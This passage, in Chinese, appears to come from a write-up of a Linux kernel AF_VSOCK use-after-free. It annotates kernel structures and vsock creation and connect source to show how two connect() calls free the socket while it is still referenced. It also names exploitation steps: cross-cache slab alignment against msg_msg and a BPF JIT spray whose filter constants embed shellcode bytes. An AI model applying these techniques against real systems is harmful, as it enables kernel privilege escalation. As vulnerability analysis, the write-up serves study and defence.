    __u16 queue_mapping;                         /* 队列映射 */
    __u8 __cloned_offset[0];                     /* 克隆标志位起点 */
    __u8 cloned : 1;                             /* 是否克隆 */
    __u8 nohdr : 1;                              /* 是否无首部 */
    __u8 fclone : 2;                             /* 快速克隆标志 */
    __u8 peeked : 1;                             /* 是否已被 peek */
    __u8 head_frag : 1;                          /* 首部是否使用分片 */
    __u8 pfmemalloc : 1;                         /* 是否由内存分配器紧急分配 */
    __u8 pp_recycle : 1;                         /* 是否可回收页池 */
    __u8 active_extensions;                      /* 活跃扩展位 */
    union {
        struct {
            __u8 __pkt_type_offset[0];           /* 包类型偏移标记 */
            __u8 pkt_type : 3;                   /* 包类型 */
            __u8 ignore_df : 1;                  /* 忽略 DF 位 */
            __u8 dst_pending_confirm : 1;        /* 路由待确认 */
            __u8 ip_summed : 2;                  /* 校验和状态 */
            __u8 ooo_okay : 1;                   /* 乱序可接受 */
            __u8 __mono_tc_offset[0];            /* 单调时间戳偏移标记 */
            __u8 tstamp_type : 2;                /* 时间戳类型 */
            __u8 tc_at_ingress : 1;              /* 处于入方向 */
            __u8 tc_skip_classify : 1;           /* 跳过分类 */
            __u8 remcsum_offload : 1;            /* 远程校验和卸载 */
            __u8 csum_complete_sw : 1;           /* 软校验和完成 */
            __u8 csum_level : 2;                 /* 校验和层级 */
            __u8 inner_protocol_type : 1;        /* 内层协议类型 */
            __u8 l4_hash : 1;                    /* L4 哈希有效 */
            __u8 sw_hash : 1;                    /* 软件哈希 */
            __u8 wifi_acked_valid : 1;           /* WiFi ACK 有效 */
            __u8 wifi_acked : 1;                 /* WiFi ACK 标志 */
            __u8 no_fcs : 1;                     /* 无 FCS */
            __u8 encapsulation : 1;              /* 封装标志 */
            __u8 encap_hdr_csum : 1;             /* 封装首部校验和 */
            __u8 csum_valid : 1;                 /* 校验和有效 */
            __u8 ndisc_nodetype : 2;             /* 邻居发现节点类型 */
            __u8 ipvs_property : 1;              /* IPVS 属性 */
            __u8 nf_trace : 1;                   /* netfilter 跟踪 */
            __u8 offload_fwd_mark : 1;           /* 卸载转发标记 */
            __u8 offload_l3_fwd_mark : 1;        /* 卸载 L3 转发标记 */
            __u8 redirected : 1;                 /* 重定向标志 */
            __u8 from_ingress : 1;               /* 来自入方向 */
            __u8 nf_skip_egress : 1;             /* 跳过出方向 netfilter */
            __u8 decrypted : 1;                  /* 已解密 */
            __u8 slow_gro : 1;                   /* 慢速 GRO */
            __u8 csum_not_inet : 1;              /* 校验和非 inet */
            __u8 unreadable : 1;                 /* 不可读标志 */
            __u16 tc_index;                      /* 流量控制索引 */
            u16 alloc_cpu;                       /* 分配 CPU */
            union {
                __wsum csum;                     /* 校验和 */
                struct {
                    __u16 csum_start;            /* 校验和起始偏移 */
                    __u16 csum_offset;           /* 校验和偏移 */
                };
            };
            __u32 priority;                      /* 优先级 */
            int skb_iif;                         /* 入接口索引 */
            __u32 hash;                          /* 哈希值 */
            union {
                u32 vlan_all;                    /* VLAN 全部字段 */
                struct {
                    __be16 vlan_proto;           /* VLAN 协议 */
                    __u16 vlan_tci;              /* VLAN TCI */
                };
            };
            union {
                unsigned int napi_id;            /* NAPI ID */
                unsigned int sender_cpu;         /* 发送方 CPU */
            };
            __u32 secmark;                       /* 安全标记 */
            union {
                __u32 mark;                      /* 标记 */
                __u32 reserved_tailroom;         /* 保留尾部空间 */
            };
            union {
                __be16 inner_protocol;           /* 内层协议 */
                __u8 inner_ipproto;              /* 内层 IP 协议 */
            };
            __u16 inner_transport_header;        /* 内层传输层首部偏移 */
            __u16 inner_network_header;          /* 内层网络层首部偏移 */
            __u16 inner_mac_header;              /* 内层 MAC 首部偏移 */
            __be16 protocol;                     /* 协议号 */
            __u16 transport_header;              /* 传输层首部偏移 */
            __u16 network_header;                /* 网络层首部偏移 */
            __u16 mac_header;                    /* MAC 首部偏移 */
        } headers;                               /* 首部与标志位联合视图 */
    };
    sk_buff_data_t tail;                         /* 数据尾部偏移 */
    sk_buff_data_t end;                          /* 缓冲区结束偏移 */
    unsigned char *head;                         /* 缓冲区起始地址 */
    unsigned char *data;                         /* 当前数据起始地址 */
    unsigned int truesize;                       /* 实际占用大小 */
    refcount_t users;                            /* 用户引用计数 */
    struct skb_ext *extensions;                  /* skb 扩展 */
};
```

`struct sk_buff` 在 vsock 路径上主要涉及队列管理。`skb_queue_purge()` 与 `__skb_queue_purge()` 分别清空 `sk_receive_queue` 与 `vvs->rx_queue`。

#### 2-3-7. 工作队列与同步

工作队列与同步原语负责延后执行的调度以及套接字状态变化的阻塞唤醒。它们在漏洞链条上主要出现在 connect 等待路径与优雅关闭路径上。

##### 2-3-7-1. delayed_work

延迟工作项，用于调度未来执行的回调。`vsock_sock` 中有三个该类型的字段。

```c
struct delayed_work {
    struct work_struct work;                     /* 工作项主体 */
    struct timer_list timer;                     /* 延迟定时器 */
    struct workqueue_struct *wq;                 /* 所属工作队列 */
    int cpu;                                     /* 绑定的 CPU */
};
```

`connect_work` 用于 connect 超时；`pending_work` 用于 pending 处理；`close_work` 用于优雅关闭等待对端确认。

##### 2-3-7-2. work_struct

工作项主体，由 `delayed_work` 内嵌。

```c
struct work_struct {
    atomic_long_t data;                          /* 工作项状态与标志 */
    struct list_head entry;                      /* 工作队列链表节点 */
    work_func_t func;                            /* 工作回调函数 */
};
```

`func` 在工作项被调度后由工作线程调用。`connect_work`、`pending_work` 与 `close_work` 的回调分别为 `vsock_connect_timeout`、`vsock_pending_work` 与 `virtio_transport_close_timeout`。

##### 2-3-7-3. timer_list

定时器结构，用于延迟调度。`sk_timer` 与 `delayed_work` 内的 timer 都是该类型。

```c
struct timer_list {
    struct hlist_node entry;                     /* 定时器链表节点 */
    unsigned long expires;                       /* 到期时间（jiffies） */
    void (*function)(struct timer_list *);       /* 到期回调 */
    u32 flags;                                   /* 定时器标志 */
};
```

`sk_timer` 是套接字通用定时器，`vsock_create()` 中通过 `timer_setup()` 初始化。

##### 2-3-7-4. wait_queue_head

等待队列头，用于阻塞与唤醒。

```c
struct wait_queue_head {
    spinlock_t lock;                             /* 队列锁 */
    struct list_head head;                       /* 等待者链表 */
};
```

`sk_sleep(sk)` 返回的就是该结构。`vsock_connect()` 阻塞等待连接完成时使用 `prepare_to_wait()` 与 `finish_wait()` 操作它。

#### 2-3-8. 内存与辅助

内存管理结构决定了 `vsock_sock` 对象的分配来源与大小，辅助结构则用于 JIT 喷射阶段在用户态构造过滤程序。

##### 2-3-8-1. kmem_cache

slab 缓存描述符。`struct proto` 的 `slab` 字段指向该类型，决定套接字对象的分配来源。

```c
struct kmem_cache {
    struct kmem_cache_cpu *cpu_slab;             /* 每 CPU 快速路径 */
    slab_flags_t flags;                          /* 缓存标志 */
    unsigned long min_partial;                   /* 最少保留 partial slab 数 */
    unsigned int size;                           /* 对象总大小（含对齐与元数据） */
    unsigned int object_size;                    /* 对象原始大小 */
    struct reciprocal_value reciprocal_size;     /* 大小倒数，用于快速计算 */
    unsigned int offset;                         /* 空闲指针偏移 */
    unsigned int cpu_partial;                    /* 每 CPU partial 上限 */
    unsigned int cpu_partial_slabs;              /* 每 CPU partial slab 数 */
    struct kmem_cache_order_objects oo;          /* 正常 slab 的 order 与对象数 */
    struct kmem_cache_order_objects min;         /* 最小 slab 的 order 与对象数 */
    gfp_t allocflags;                            /* 分配标志 */
    int refcount;                                /* 缓存引用计数 */
    void (*ctor)(void *);                        /* 构造回调 */
    unsigned int inuse;                          /* 使用中对象数 */
    unsigned int align;                          /* 对齐要求 */
    unsigned int red_left_pad;                   /* 左侧红区 */
    const char *name;                            /* 缓存名，如 "AF_VSOCK" */
    struct list_head list;                       /* 全局缓存链表节点 */
    struct kobject kobj;                         /* sysfs 对象 */
    unsigned long random;                        /* 随机化种子 */
    unsigned int remote_node_defrag_ratio;       /* NUMA 远程节点整理比例 */
    unsigned int *random_seq;                    /* 随机序列 */
    unsigned int useroffset;                     /* 用户数据偏移 */
    unsigned int usersize;                       /* 用户数据大小 */
    struct kmem_cache_node *node[1024];          /* 各 NUMA 节点 */
};
```

`AF_VSOCK` 专用缓存的 `name` 为 `"AF_VSOCK"`，`object_size` 为 1232，`size` 包含对齐后为 1280（0x500），`oo` 与 `min` 决定其 slab 为 order-3。这些参数直接影响了后续跨缓存回收的对齐计算——`AF_VSOCK` 的有效槽位步长为 `ALIGN(0x4d0, 0x40) = 0x500`，与 `msg_msg-2k` 的 `0x800` 步长之间的差值是 `0x100` 的倍数。

##### 2-3-8-2. sock_fprog

经典 BPF 程序描述符，用于 `SO_ATTACH_FILTER` 的 `setsockopt`。

```c
struct sock_fprog {
    unsigned short len;                          /* 指令条数 */
    struct sock_filter *filter;                  /* 指令数组指针 */
};
```

`phase_01_spray_bpf_jit()` 在用户态构造该结构并通过 `setsockopt(SO_ATTACH_FILTER)` 传入内核，触发 BPF JIT 生成。

##### 2-3-8-3. sock_filter

单条经典 BPF 指令。

```c
struct sock_filter {
    __u16 code;                                  /* 操作码：BPF_LD / BPF_RET / BPF_ALU 等 */
    __u8 jt;                                     /* 条件为真时的跳转偏移 */
    __u8 jf;                                     /* 条件为假时的跳转偏移 */
    __u32 k;                                     /* 立即数或偏移参数 */
};
```

在 JIT 喷射中，指令被设计为 `{ .code = BPF_LD + BPF_K, .k = 0xb3909090 }`，JIT 生成的机器码中间嵌入 `0x90`（NOP）与 `0xb3 0xb8` 前缀，配合 trampoline 指令构成可跳入的 shellcode 序列。

### 2-4. 关键函数

本节按漏洞链条上各函数的职责分层展开，分为 socket 创建、connect 与 transport 绑定、引用计数与链表操作、transport 释放路径、socket 释放与析构、辅助函数、常量与宏七个部分。

#### 2-4-1. Socket 创建与初始化

vsock 套接字从 `socket()` 系统调用开始，经过分配、初始化、挂链三个阶段。这三个阶段共同决定了后续漏洞链条上的两个初始条件：`sk_refcnt` 的初始值，以及套接字在 unbound 链表上的位置。

##### 2-4-1-1. 创建入口

```c
/*
 * vsock_create - AF_VSOCK 协议族的 socket() 创建钩子
 * @net:       网络命名空间
 * @sock:      正在创建的 struct socket
 * @protocol:  用户态 protocol 参数
 * @kern:      内核内部 socket 标志
 *
 * 按 socket 类型绑定相应的 proto_ops 表，通过 __vsock_create()
 * 分配底层 struct sock 并初始化 vsock 专有字段，最后把新套接字
 * 挂到 unbound 链表上。
 *
 * SOCK_DGRAM 类型的套接字在创建时就立即选择 transport，因为
 * 数据报没有独立的 connect 阶段；SOCK_STREAM 与 SOCK_SEQPACKET
 * 则把 transport 的选择推迟到 connect() 时。
 */
static int vsock_create(struct net *net, struct socket *sock,
			int protocol, int kern)
{
	struct vsock_sock *vsk;
	struct sock *sk;
	int ret;

	/* sock 为空说明上层传入有误，直接拒绝 */
	if (!sock)
		return -EINVAL;

	/* vsock 目前只支持 PF_VSOCK 作为 protocol 值 */
	if (protocol && protocol != PF_VSOCK)
		return -EPROTONOSUPPORT;

	/* 按 socket 类型绑定相应的 proto_ops 表 */
	switch (sock->type) {
	case SOCK_DGRAM:
		sock->ops = &vsock_dgram_ops;
		break;
	case SOCK_STREAM:
		sock->ops = &vsock_stream_ops;
		break;
	case SOCK_SEQPACKET:
		sock->ops = &vsock_seqpacket_ops;
		break;
	default:
		return -ESOCKTNOSUPPORT;
	}

	/* 套接字尚未进入任何连接状态 */
	sock->state = SS_UNCONNECTED;

	/* 分配底层 struct sock 并初始化通用字段与 vsock 专有字段 */
	sk = __vsock_create(net, sock, NULL, GFP_KERNEL, 0, kern);
	if (!sk)
		return -ENOMEM;

	/* 从 struct sock 反推回内嵌的 struct vsock_sock */
	vsk = vsock_sk(sk);

	/* SOCK_DGRAM 无独立 connect 阶段，创建时就需要选定 transport */
	if (sock->type == SOCK_DGRAM) {
		ret = vsock_assign_transport(vsk, NULL);
		if (ret < 0) {
			sock_put(sk);
			return ret;
		}
	}

	/* 让 setsockopt 走 vsock 自定义逻辑而非通用路径 */
	if (sock_type_connectible(sock->type))
		set_bit(SOCK_CUSTOM_SOCKOPT, &sk->sk_socket->flags);

	/*
	 * 将新套接字挂到 unbound 链表。
	 * __vsock_insert_bound() 内部的 sock_hold() 使 sk_refcnt 从 1
	 * 提升到 2：一份引用来自 fd，另一份来自链表成员身份。
	 *
	 * 这两份引用是漏洞链条的前提：后续两次 connect 分别针对
	 * 这两份引用进行递减，最终把 sk_refcnt 降到 0。
	 */
	vsock_insert_unbound(vsk);

	return 0;
}
```

##### 2-4-1-2. 底层分配

`__vsock_create()` 承担了从 slab 缓存到字段初始化的完整任务。它的执行结果决定了套接字在进入链表之前的所有权属关系——`sk_refcnt` 的初值、`sk_wmem_alloc` 的初值，以及后续用于释放的 `sk_destruct` 回调。

```c
/*
 * __vsock_create - 分配并初始化 struct vsock_sock
 * @net:       网络命名空间
 * @sock:      上层 struct socket
 * @parent:    父套接字，用于 accept 派生（此处为 NULL）
 * @priority:  gfp 标志
 * @type:      套接字类型（sock 为 NULL 时使用）
 * @kern:      内核内部 socket 标志
 *
 * 分配底层 slab 对象、初始化通用 sock 字段、初始化 vsock 专有
 * 字段（local_addr、remote_addr、链表头、延迟工作等），并根据
 * 是否存在父套接字决定继承字段的来源。
 */
static struct sock *__vsock_create(struct net *net,
				   struct socket *sock,
				   struct sock *parent,
				   gfp_t priority,
				   unsigned short type,
				   int kern)
{
	struct sock *sk;
	struct vsock_sock *psk;
	struct vsock_sock *vsk;

	/* 从 vsock_proto 指定的 AF_VSOCK slab 中分配 struct sock */
	sk = sk_alloc(net, AF_VSOCK, priority, &vsock_proto, kern);
	if (!sk)
		return NULL;

	/* 初始化通用 sock 字段，其中包含 sk_refcnt 的赋值 */
	sock_init_data(sock, sk);

	/* sock 为 NULL 时（监听路径）手动补充 sk_type */
	if (!sock)
		sk->sk_type = type;

	/* 从 struct sock 反推回内嵌的 struct vsock_sock */
	vsk = vsock_sk(sk);

	/* 未绑定套接字的 local/remote 地址初始化为通配值 */
	vsock_addr_init(&vsk->local_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	vsock_addr_init(&vsk->remote_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);

	/* 安装 vsock 专有的析构与接收回调 */
	sk->sk_destruct = vsock_sk_destruct;
	sk->sk_backlog_rcv = vsock_queue_rcv_skb;
	sock_reset_flag(sk, SOCK_DONE);

	/*
	 * 初始化 vsock 专有的链表节点与延迟工作。
	 * bound_table 是漏洞链上最关键的字段——它同时参与 bound
	 * 链表与 unbound 链表，这一点为后续的检查函数误判埋下根源。
	 */
	INIT_LIST_HEAD(&vsk->bound_table);
	INIT_LIST_HEAD(&vsk->connected_table);
	vsk->listener = NULL;
	INIT_LIST_HEAD(&vsk->pending_links);
	INIT_LIST_HEAD(&vsk->accept_queue);
	vsk->rejected = false;
	vsk->sent_request = false;
	vsk->ignore_connecting_rst = false;
	vsk->peer_shutdown = 0;
	INIT_DELAYED_WORK(&vsk->connect_work, vsock_connect_timeout);
	INIT_DELAYED_WORK(&vsk->pending_work, vsock_pending_work);

	/* 无父套接字（普通 socket 创建路径）走 else 分支 */
	psk = parent ? vsock_sk(parent) : NULL;
	if (parent) {
		vsk->trusted = psk->trusted;
		vsk->owner = get_cred(psk->owner);
		vsk->connect_timeout = psk->connect_timeout;
		vsk->buffer_size = psk->buffer_size;
		vsk->buffer_min_size = psk->buffer_min_size;
		vsk->buffer_max_size = psk->buffer_max_size;
		security_sk_clone(parent, sk);
	} else {
		vsk->trusted = ns_capable_noaudit(&init_user_ns, CAP_NET_ADMIN);
		vsk->owner = get_current_cred();
		vsk->connect_timeout = VSOCK_DEFAULT_CONNECT_TIMEOUT;
		vsk->buffer_size = VSOCK_DEFAULT_BUFFER_SIZE;
		vsk->buffer_min_size = VSOCK_DEFAULT_BUFFER_MIN_SIZE;
		vsk->buffer_max_size = VSOCK_DEFAULT_BUFFER_MAX_SIZE;
	}

	return sk;
}

/*
 * sk_alloc - 通用 socket 分配入口
 * @net:       网络命名空间
 * @family:    地址族（AF_VSOCK）
 * @priority:  gfp 标志
 * @prot:      proto 描述符，其 ->slab 字段决定使用哪个 kmem_cache
 * @kern:      内核内部 socket 标志
 *
 * 从 prot->slab 指定的 slab 缓存中获取一个清零对象，然后设置
 * 通用字段：sk_family、sk_prot、sk_prot_creator、锁、命名空间
 * 引用计数、cgroup 归属等。
 *
 * sk_refcnt 与 sk_wmem_alloc 是两套独立的引用计数：前者决定
 * 对象何时可以释放，后者追踪写侧缓冲区的引用。
 */
struct sock *sk_alloc(struct net *net, int family, gfp_t priority,
		      struct proto *prot, int kern)
{
	struct sock *sk;

	/* __GFP_ZERO 保证返回对象被清零，避免未初始化字段泄漏 */
	sk = sk_prot_alloc(prot, priority | __GFP_ZERO, family);
	if (sk) {
		sk->sk_family = family;
		/*
		 * 记录 proto 指针，后续 close/bind/connect 等操作通过它分发。
		 * sk_prot_creator 记录最初创建者，用于诊断。
		 */
		sk->sk_prot = sk->sk_prot_creator = prot;
		sk->sk_kern_sock = kern;
		sock_lock_init(sk);
		sk->sk_net_refcnt = kern ? 0 : 1;
		if (likely(sk->sk_net_refcnt)) {
			get_net_track(net, &sk->ns_tracker, priority);
			sock_inuse_add(net, 1);
		} else {
			__netns_tracker_alloc(net, &sk->ns_tracker,
					      false, priority);
		}

		sock_net_set(sk, net);
		/* 写侧引用计数独立于 sk_refcnt，sk_free 会检查它 */
		refcount_set(&sk->sk_wmem_alloc, 1);

		mem_cgroup_sk_alloc(sk);
		cgroup_sk_alloc(&sk->sk_cgrp_data);
		sock_update_classid(&sk->sk_cgrp_data);
		sock_update_netprioidx(&sk->sk_cgrp_data);
		sk_tx_queue_clear(sk);
	}

	return sk;
}

/*
 * sk_prot_alloc - 从协议 slab 中分配 struct sock
 * @prot:      proto 描述符，prot->slab 为专用 kmem_cache
 * @priority:  gfp 标志
 * @family:    地址族，传给 security_sk_alloc()
 *
 * 如果 prot->slab 非空则从专用 kmem_cache 分配；否则回退到
 * 通用的 kmalloc。对 AF_VSOCK 来说 prot->slab 指向模块初始化
 * 时创建的 "AF_VSOCK" kmem_cache——这正是 cross-cache 能够
 * 成立的前提。
 */
static struct sock *sk_prot_alloc(struct proto *prot, gfp_t priority,
		int family)
{
	struct sock *sk;
	struct kmem_cache *slab;

	/* 取协议专用 slab；AF_VSOCK 有自己的专用缓存 */
	slab = prot->slab;
	if (slab != NULL) {
		/* 专用 slab 路径：从 AF_VSOCK 缓存切出一个对象 */
		sk = kmem_cache_alloc(slab, priority & ~__GFP_ZERO);
		if (!sk)
			return sk;
		/* 若配置要求分配时清零，则手动清零整块对象 */
		if (want_init_on_alloc(priority))
			sk_prot_clear_nulls(sk, prot->obj_size);
	} else
		/* 通用路径：回退到 kmalloc */
		sk = kmalloc(prot->obj_size, priority);

	if (sk != NULL) {
		/* 调用 LSM 钩子，记录分配事件 */
		if (security_sk_alloc(sk, family, priority))
			goto out_free;

		/* 增加模块引用计数，防止协议在使用期间被卸载 */
		if (!try_module_get(prot->owner))
			goto out_free_sec;
	}

	return sk;

out_free_sec:
	security_sk_free(sk);
out_free:
	if (slab != NULL)
		kmem_cache_free(slab, sk);
	else
		kfree(sk);
	return NULL;
}
```

##### 2-4-1-3. 字段初始化

字段初始化的核心工作由 `sock_init_data()` → `sock_init_data_uid()` 承担。这一对函数把套接字从"刚分配的裸内存"转变为"可以参与协议栈分发"的对象，其中 `sk_refcnt` 的赋值决定了对象生命周期的起点。

```c
/*
 * sock_init_data - 初始化通用 sock 字段
 * @sock:  上层 struct socket
 * @sk:    正在初始化的 struct sock
 *
 * 解析属主 uid 后转发给 sock_init_data_uid()。
 */
void sock_init_data(struct socket *sock, struct sock *sk)
{
	kuid_t uid = sock ?
		SOCK_INODE(sock)->i_uid :
		make_kuid(sock_net(sk)->user_ns, 0);

	sock_init_data_uid(sock, sk, uid);
}

/*
 * sock_init_data_uid - 初始化通用 sock 字段
 * @sock:  上层 struct socket
 * @sk:    正在初始化的 struct sock
 * @uid:   属主 uid
 *
 * 设置 sk_state 为 TCP_CLOSE，安装默认回调（sock_def_wakeup、
 * sock_def_readable、sock_def_write_space、sock_def_error_report、
 * sock_def_destruct），初始化等待队列、超时参数、socket 类型等
 * 通用字段。末尾把 sk_refcnt 初始化为 1，代表 socket() 返回的
 * 文件描述符所持有的那份引用。
 *
 * smp_wmb() 与套接字后续对读者可见时的 RCU 发布语义配对，保证
 * 在此之前的所有字段写入对读者可见。
 */
void sock_init_data_uid(struct socket *sock, struct sock *sk, kuid_t uid)
{
	/* 初始化三个 skb 队列与回调锁 */
	sk_init_common(sk);
	sk->sk_send_head	=	NULL;

	timer_setup(&sk->sk_timer, NULL, 0);

	sk->sk_allocation	=	GFP_KERNEL;
	sk->sk_rcvbuf		=	READ_ONCE(sysctl_rmem_default);
	sk->sk_sndbuf		=	READ_ONCE(sysctl_wmem_default);
	/* 套接字初始状态：尚未建立连接 */
	sk->sk_state		=	TCP_CLOSE;
	sk->sk_use_task_frag	=	true;
	sk_set_socket(sk, sock);

	sock_set_flag(sk, SOCK_ZAPPED);

	if (sock) {
		sk->sk_type	=	sock->type;
		RCU_INIT_POINTER(sk->sk_wq, &sock->wq);
		sock->sk	=	sk;
	} else {
		RCU_INIT_POINTER(sk->sk_wq, NULL);
	}
	sk->sk_uid	=	uid;

	/* 安装默认回调，vsock 稍后会在 __vsock_create 中覆盖其中两项 */
	sk->sk_state_change	=	sock_def_wakeup;
	sk->sk_data_ready	=	sock_def_readable;
	sk->sk_write_space	=	sock_def_write_space;
	sk->sk_error_report	=	sock_def_error_report;
	sk->sk_destruct		=	sock_def_destruct;

	sk->sk_frag.page	=	NULL;
	sk->sk_frag.offset	=	0;
	sk->sk_peek_off		=	-1;

	sk->sk_peer_pid 	=	NULL;
	sk->sk_peer_cred	=	NULL;
	spin_lock_init(&sk->sk_peer_lock);

	sk->sk_write_pending	=	0;
	sk->sk_rcvlowat		=	1;
	sk->sk_rcvtimeo		=	MAX_SCHEDULE_TIMEOUT;
	sk->sk_sndtimeo		=	MAX_SCHEDULE_TIMEOUT;

	sk->sk_stamp = SK_DEFAULT_STAMP;
#if BITS_PER_LONG==32
	seqlock_init(&sk->sk_stamp_seq);
#endif
	atomic_set(&sk->sk_zckey, 0);

#ifdef CONFIG_NET_RX_BUSY_POLL
	sk->sk_napi_id		=	0;
	sk->sk_ll_usec		=	READ_ONCE(sysctl_net_busy_read);
#endif

	sk->sk_max_pacing_rate = ~0UL;
	sk->sk_pacing_rate = ~0UL;
	WRITE_ONCE(sk->sk_pacing_shift, 10);
	sk->sk_incoming_cpu = -1;

	sk_rx_queue_clear(sk);
	/*
	 * smp_wmb 与套接字后续对读者可见时的发布语义配对，
	 * 保证在此之前的所有字段写入对读者可见。
	 */
	smp_wmb();
	/* 引用计数起点：1 表示 fd 所持有的那一份引用 */
	refcount_set(&sk->sk_refcnt, 1);
	atomic_set(&sk->sk_drops, 0);
}

/*
 * sk_init_common - 初始化套接字的三个 skb 队列与回调锁
 * @sk:  正在初始化的 struct sock
 *
 * 初始化 receive / write / error 三个队列头，并按地址族为
 * 各队列的锁设置合适的 lockdep 类别。
 */
static void sk_init_common(struct sock *sk)
{
	skb_queue_head_init(&sk->sk_receive_queue);
	skb_queue_head_init(&sk->sk_write_queue);
	skb_queue_head_init(&sk->sk_error_queue);

	rwlock_init(&sk->sk_callback_lock);
	lockdep_set_class_and_name(&sk->sk_receive_queue.lock,
			af_rlock_keys + sk->sk_family,
			af_family_rlock_key_strings[sk->sk_family]);
	lockdep_set_class_and_name(&sk->sk_write_queue.lock,
			af_wlock_keys + sk->sk_family,
			af_family_wlock_key_strings[sk->sk_family]);
	lockdep_set_class_and_name(&sk->sk_error_queue.lock,
			af_elock_keys + sk->sk_family,
			af_family_elock_key_strings[sk->sk_family]);
	if (sk->sk_kern_sock)
		lockdep_set_class_and_name(&sk->sk_callback_lock,
			af_kern_callback_keys + sk->sk_family,
			af_family_kern_clock_key_strings[sk->sk_family]);
	else
		lockdep_set_class_and_name(&sk->sk_callback_lock,
			af_callback_keys + sk->sk_family,
			af_family_clock_key_strings[sk->sk_family]);
}
```

##### 2-4-1-4. 链表挂载

分配与初始化完成后，套接字通过 `vsock_insert_unbound()` 进入 unbound 链表。这一步使 `sk_refcnt` 从 1 增至 2，为后续检查函数的误判埋下第一层伏笔。

```c
/*
 * vsock_insert_unbound - 把新建套接字排队到 unbound 链表
 * @vsk:  待入链的 vsock_sock
 *
 * 由 vsock_create() 在分配和初始化完成后立即调用，使套接字
 * 处于"已创建但尚未绑定"的状态。
 */
static void vsock_insert_unbound(struct vsock_sock *vsk)
{
	spin_lock_bh(&vsock_table_lock);
	__vsock_insert_bound(vsock_unbound_sockets, vsk);
	spin_unlock_bh(&vsock_table_lock);
}

/*
 * __vsock_insert_bound - 把 vsock_sock 挂到指定链表并取一份引用
 * @list:  目标链表头（bound hash bucket 或 unbound 链表）
 * @vsk:   待挂载的 vsock_sock
 *
 * bound hash table 与 unbound 链表共用此函数，是 AF_UNIX 沿用
 * 的空间优化：把 unbound 链表作为 hash table 的额外一项挂载。
 * 每个套接字内嵌的 bound_table 字段同时参与两条链表，因此无
 * 法从字段本身判断套接字当前位于哪条链表。
 *
 * 本函数在两次 connect 中也有不同的调用结果：
 *   - 第一次 connect 的 autobind 失败路径不调用本函数；
 *   - 第二次 connect 末尾会以悬垂的 vsk 调用本函数，触发
 *     sock_hold() 对已释放引用计数递增，构成 UAF 的一部分。
 */
static void __vsock_insert_bound(struct list_head *list,
				 struct vsock_sock *vsk)
{
	/* 引用计数：1 -> 2（fd 引用 + 链表引用） */
	sock_hold(&vsk->sk);
	/* 把 bound_table 节点挂到目标链表 */
	list_add(&vsk->bound_table, list);
}
```

#### 2-4-2. connect 与 transport 绑定

connect 阶段决定了 transport 的绑定状态与套接字的最终去向。**第一次 connect 与第二次 connect 承担的作用本质不同**，它们分别把链条推进到不同的状态：第一次 connect 让套接字绑定 loopback transport 并停留在 unbound 链表上，同时把静态端口计数器推进到预留区间之外；第二次 connect 则触发 transport 重分配，先让引用计数减一，再在自动绑定成功后被减到零，从而进入 UAF 写。

##### 2-4-2-1. connect 入口

```c
/*
 * vsock_connect - AF_VSOCK 的 connect() 入口
 * @sock:     上层 struct socket
 * @addr:     用户提供的 sockaddr_vm
 * @addr_len: addr 的长度
 * @flags:    connect 标志（O_NONBLOCK 等）
 *
 * 本函数在漏洞链条上会被调用两次，两次的作用本质不同：
 *
 *   第一次 connect：vsk->transport 为 NULL，vsock_assign_transport()
 *     只完成 transport 绑定，release 分支不触发。随后进入
 *     vsock_auto_bind() 的端口探测循环，24 次探测全部命中预留
 *     端口，返回 -EADDRNOTAVAIL。错误路径经 release_sock() 返回，
 *     该函数不触碰 sk_refcnt，因此套接字存活且仍挂在 unbound
 *     链表上。关键副作用是静态 port 计数器被推进 24 格，落在
 *     预留区间之外——这为下一次 connect 的自动绑定成功铺路。
 *
 *   第二次 connect：请求不同 CID，vsk->transport 非空且与新
 *     transport 不同，vsock_assign_transport() 的 release 分支
 *     被触发，沿 virtio_transport_release() → vsock_remove_sock()
 *     路径完成第一次 sock_put()，引用计数从 2 降到 1。随后
 *     自动绑定因端口计数器已在预留区间之外而首次探测即成功，
 *     进入 __vsock_bind_connectible() 末尾的迁移操作，触发
 *     第二次 sock_put() 使引用计数归零并释放对象。紧随其后的
 *     __vsock_insert_bound() 使用悬垂指针执行 sock_hold() 与
 *     list_add()，构成 UAF。
 *
 * 错误路径统一落到 out: 标签，执行 release_sock() 后返回。
 * release_sock() 不涉及引用计数。
 */
static int vsock_connect(struct socket *sock, struct sockaddr *addr,
			 int addr_len, int flags)
{
	int err;
	struct sock *sk;
	struct vsock_sock *vsk;
	const struct vsock_transport *transport;
	struct sockaddr_vm *remote_addr;
	long timeout;
	DEFINE_WAIT(wait);

	err = 0;
	sk = sock->sk;
	vsk = vsock_sk(sk);

	/* 获取 socket 锁，整个 connect 流程在持锁状态下执行 */
	lock_sock(sk);

	switch (sock->state) {
	case SS_CONNECTED:
		err = -EISCONN;
		goto out;
	case SS_DISCONNECTING:
		err = -EINVAL;
		goto out;
	case SS_CONNECTING:
		err = -EALREADY;
		if (flags & O_NONBLOCK)
			goto out;
		break;
	default:
		if ((sk->sk_state == TCP_LISTEN) ||
		    vsock_addr_cast(addr, addr_len, &remote_addr) != 0) {
			err = -EINVAL;
			goto out;
		}

		/* 记录本次请求的目标地址，供 transport 选择使用 */
		memcpy(&vsk->remote_addr, remote_addr,
		       sizeof(vsk->remote_addr));

		/*
		 * 关键步骤：根据 remote_addr.svm_cid 选择 transport。
		 *
		 * 第一次 connect：vsk->transport 为 NULL，release 分支
		 *   被跳过，只完成新 transport 的绑定。
		 * 第二次 connect：vsk->transport 非空且与新 transport
		 *   不同，release 分支执行——漏洞正是在这里被触发。
		 */
		err = vsock_assign_transport(vsk, NULL);
		if (err)
			goto out;

		transport = vsk->transport;

		/* hypervisor 与保留 CID 不允许连接 */
		if (!transport ||
		    !transport->stream_allow(remote_addr->svm_cid,
					     remote_addr->svm_port)) {
			err = -ENETUNREACH;
			goto out;
		}

		if (vsock_msgzerocopy_allow(transport)) {
			set_bit(SOCK_SUPPORT_ZC, &sk->sk_socket->flags);
		} else if (sock_flag(sk, SOCK_ZEROCOPY)) {
			err = -EOPNOTSUPP;
			goto out;
		}

		/*
		 * 自动绑定本地端口。两次 connect 中该步骤的结果不同：
		 *
		 * 第一次 connect：静态 port 计数器位于 P0+1，24 次
		 *   探测全部命中预留端口，返回 -EADDRNOTAVAIL。
		 * 第二次 connect：静态 port 计数器已被推进到 P0+25，
		 *   首次探测即成功，进入 __vsock_bind_connectible()
		 *   末尾的迁移操作。
		 */
		err = vsock_auto_bind(vsk);
		if (err)
			goto out;

